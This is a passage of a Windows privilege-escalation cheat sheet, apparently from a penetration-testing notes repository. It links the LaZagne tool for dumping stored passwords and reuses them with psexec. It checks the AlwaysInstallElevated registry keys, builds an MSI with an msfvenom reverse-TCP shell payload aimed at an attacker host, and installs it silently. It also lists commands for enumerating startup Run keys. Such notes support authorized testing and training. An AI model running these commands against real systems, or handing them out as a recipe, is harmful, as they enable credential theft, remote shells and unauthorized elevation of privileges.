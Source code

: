 ```
```

### Recover passwords stored in user memory
https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe  

### Use found password to execute command
```
psexec.exe -accepteula -u <user> -p <password> <command> 
```


## AlwaysInstallElevated
### Check if AlwaysInstallElevated is enabled on both registry keys (0x1 -> feature is enabled)
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

### Create msi file with msfvenom 
```
msfvenom -p windows/shell/reverse_tcp lhost=<lhost> lport=<lport> -f msi > <file>.msi
```

### Install file using msi (qn = no GUI, i = regular installation)
```
msiexec /quiet /qn /i <file>.msi
Write-UserAddMSI -Verbose
```


## Startup Applications
### Get startup scripts
```
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
```
